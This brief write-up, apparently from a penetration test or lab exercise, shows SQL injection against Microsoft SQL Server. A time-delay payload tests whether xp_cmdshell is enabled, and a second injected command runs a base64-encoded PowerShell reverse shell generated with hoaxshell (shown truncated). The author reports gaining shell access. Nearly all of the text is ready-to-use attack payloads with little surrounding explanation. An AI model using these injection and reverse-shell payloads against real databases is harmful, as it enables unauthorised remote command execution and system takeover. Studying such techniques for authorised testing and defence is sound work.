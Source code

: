 # SQL Payloads

## Payload to Check for xp_cmdshell:
```sql
'; IF EXISTS (SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell' AND value_in_use = 1) WAITFOR DELAY '00:00:05' -- //
```

A five-second delay in the response confirmed its activation. Next, I created a PowerShell payload using hoaxshell:

Hoax Reverse Shell Payload:
```sh
'; EXEC xp_cmdshell 'powershell -e eQBvAHUAcgAtAHAAYQB5AGwAbwBhAGQA...'; -- //
```

Execute it and successfully gain shell access, as you can see in the screenshot.

![img](https://media.licdn.com/dms/image/D4E22AQEMx7xvCP8YLA/feedshare-shrink_1280/0/1714023914371?e=1726099200&v=beta&t=j-GJQ0LxllbbHyNGD2dQGqsx_NFpRnCP_mQxo5z5GCw)
